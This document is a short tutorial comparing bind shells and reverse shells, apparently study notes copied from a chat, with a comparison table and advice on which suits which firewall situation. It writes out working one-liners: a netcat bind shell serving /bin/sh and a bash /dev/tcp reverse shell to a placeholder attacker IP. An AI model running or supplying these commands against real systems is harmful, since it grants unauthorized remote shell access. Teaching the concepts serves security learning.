 
### Reverse v Bind Shell.
-------------
## 1. Bind Shell

- **Listener location**: Runs on the **target** machine.
    
- **How it works**:
    
    1. The target executes a payload that binds a shell to a TCP port (e.g. `nc -lvp 4444 -e /bin/sh`).
        
    2. The attacker initiates a connection to the target’s listening port:
        
        bash
        
        CopyEdit
        
        `nc TARGET_IP 4444`
        
- **Pros**:
    
    - Simpler setup on the attacker side.
        
- **Cons**:
    
    - Target must have its firewall port open/forwarded.
        
    - Easier for defenders to spot an unexpected listener on the target.
        

---

## 2. Reverse Shell

- **Listener location**: Runs on the **attacker** machine.
    
- **How it works**:
    
    1. The attacker sets up a listener:
        
        bash
        
        CopyEdit
        
        `nc -lvnp 4444`
        
    2. The target executes a payload that “connects back” to the attacker’s IP and port:
        
        bash
        
        CopyEdit
        
        `bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1`
        
- **Pros**:
    
    - Bypasses firewalls/NAT on the target side (outbound is often allowed).
        
    - Less noisy on the target (no open listening port).
        
- **Cons**:
    
    - Attacker must be reachable (public IP, VPN, port-forwarding).
        

---

## 3. Side-by-Side Comparison

|Aspect|Bind Shell|Reverse Shell|
|---|---|---|
|Who listens?|**Target**|**Attacker**|
|Who connects?|**Attacker → Target**|**Target → Attacker**|
|Firewall/NAT issue?|Requires inbound access to target|Requires outbound access from target (usually easier)|
|Detection surface|Opens a new listening port on target|Often slips through, no new listener on target|
|Typical payload|`nc -lvp PORT -e /bin/sh`|`bash -i >& /dev/tcp/IP/PORT 0>&1`|

---

### When to Use Which

- **Bind shell**:
    
    - When the target is on a network segment you control and firewalls permit inbound traffic.
        
- **Reverse shell**:
    
    - When the target is behind NAT/firewall and only outbound connections are allowed.